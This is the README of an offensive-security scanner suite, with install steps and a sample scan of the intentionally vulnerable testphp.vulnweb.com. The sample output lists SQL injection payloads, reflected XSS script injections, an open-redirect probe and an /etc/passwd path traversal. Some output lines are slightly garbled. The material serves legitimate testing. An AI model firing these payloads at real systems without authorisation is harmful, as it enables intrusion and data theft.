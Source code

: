 ```yaml
---
title: yublueflower
excerpt: A suite integrating open-source workflows tailored for offensive security.
date: 2025-03-01 01:37:00
tags: [yublueflower]
categories:
  - [1337rokudenashi]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/reincarnation.png
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337rokudenashi.png
---
```


<h1 align="center">yublueflower</h1>

<p align="center">
  A suite integrating open-source workflows tailored for offensive security.
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white">
</p>

## Overview

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Usage:
yublueflower -url http://testphp.vulnweb.com/

Options:
-help                 Show help message.
-url <URL>            Scan as well as test utilizing security flaw templates.
-highly-aggressive    Highly aggressive testing.
-silent               Skip URL gathering noise to keep testing clean.
```

A suite integrating open-source workflows tailored for offensive security, yublueflower provides comprehensive vulnerability assessments.
This tool is designed to be flexible and effective in supporting offensive security workflows. It has been tested to work smoothly on WSL (Windows Subsystem for Linux) with Kali Linux.

## Features

- **Reconnaissance Phase**:
  - Aggressively gathering URLs.
- **Vulnerability Assessment Phase**:
  - Assessing vulnerabilities offensively, scanning as well as testing utilizing security flaw templates.
- **Reporting Phase**:
  - Results flawlessly generated.
- **Options**:
  - Highly aggressive testing.
  - Skip URL gathering noise to keep testing clean.

## System Requirements

- **Operating System**: WSL (Windows Subsystem for Linux) with Kali Linux
- **Dependencies**: go.dev (see [installation instructions](https://go.dev/doc/install))
- **Dependencies**: nodejs (see [installation instructions](https://nodejs.org/en/download))

## Installation

To install yublueflower, clone the repository and set up the tool as follows:

```bash
git clone https://github.com/1337rokudenashi/yublueflower.git
cd yublueflower
chmod +x yublueflower
bash yublueflower
```

## Usage

To run the tool, use the following command:

```bash
yublueflower -url http://testphp.vulnweb.com/
```

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Testing started at 13:37:01 01-03-2025
🟢 Reconnaissance Phase: Aggressively gathering URLs...
http://testphp.vulnweb.com/redir.php?r=https://getgophish.com/
http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 AND UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT (ELT(3477=3477,1))),0x716b786b71),6541)
http://testphp.vulnweb.com/artists.php?artist=1 order by 4
http://testphp.vulnweb.com/product.php?pic=3) AND 4294=2769 AND (1005=1005
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/?
http://testphp.vulnweb.com/showimage.php?ﬁle=13745325-cd3d-4961-b71d-d04727bb02b0
http://testphp.vulnweb.com/comment.php?aid=' UNION SELECT * FROM information_schema --
http://testphp.vulnweb.com/search.php?test=<USER_INPUT>
http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1 OR 17-7=10CONFIRMED
http://testphp.vulnweb.com/hpp/params.php?aaaa/=
http://testphp.vulnweb.com/login.php?id=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1 OR 17-7=10 PROCEDURE ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT (CASE WHEN (6706=6706) THEN 1 ELSE 0 END)),0x716a627a71)),1)
http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja
http://testphp.vulnweb.com/˓→artists.php?artist=0
http://testphp.vulnweb.com/secured/phpinfo.php?=PHPE9568F35-D428-11d2-A769-00AA001ACF42
http://testphp.vulnweb.com/pictures/credentials.txtA01http://testphp.vulnweb.com/product.php?pic=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-
http://testphp.vulnweb.com/˓→listproducts.php?cat=FUZZ*********************************************************
http://testphp.vulnweb.com/index.zipA01http://testphp.vulnweb.com/listproducts.php?artist=1A01
http://testphp.vulnweb.com/index.php?%id%=1
http://testphp.vulnweb.com/categories.php/listproducts.php?cat='
http://testphp.vulnweb.com/artist.php?artist=1
http://testphp.vulnweb.com/hpp/?pp=12
http://testphp.vulnweb.com/artists.php?artist=3
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/hpp/params.php?p=valid
http://testphp.vulnweb.com/showimage.php?file=./pictures/3.jpg
http://testphp.vulnweb.com/product.php?pic=6
🟢 Vulnerability Assessment Phase: Assessing vulnerabilities offensively, scanning as well as testing utilizing security flaw templates...
[waf-detect:nginxgeneric] [http] [info] http://testphp.vulnweb.com/
[php-errors] [http] [info] http://testphp.vulnweb.com/ ["Warning: mysql_connect()"]
[nginx-version] [http] [info] http://testphp.vulnweb.com/ ["nginx/1.19.0"]
[php-detect] [http] [info] http://testphp.vulnweb.com/ ["5.6.40"]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1+OR+17-7=10+PROCEDURE+ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT+(CASE+WHEN+(6706=6706)+THEN+1+ELSE+0+END)),0x716a627a71)),1)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/AJAX/infoartist.php?id=1+AND+UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT+(ELT(3477=3477,1))),0x716b786b71),6541)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:test] [GET]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt+src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja'"><69347> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>'"><69347> [query:test] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005'"><69347> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4'"><69347> [query:artist] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0'"><69347> [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=3' ["check the manual that corresponds to your MySQL server version","SQL syntax; check the manual that corresponds to your MySQL"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=6' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1'"><77225> [query:cat] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=6'"><77225> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/params.php?p=valid'"><77225> [query:p] [GET]
[linux-lfi-fuzz] [http] [high] http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp=12'"><77225> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=3'"><77225> [query:artist] [GET]
🟢 Reporting Phase: Results flawlessly generated...
Results at /home/yublueflower/glow_yublueflower
Testing finished at 13:44:01 01-03-2025
Use command glow yublueflower_20250301_133701 to see results.
```

## Contributing

We welcome contributions! Feel free to fork the repository, improve the tool, and submit a pull request.

## License

This project is licensed under the MIT License. See the [LICENSE](https://github.com/1337rokudenashi/yublueflower/blob/main/LICENSE) file for details.

## Author

Developed and maintained by 1337rokudenashi.
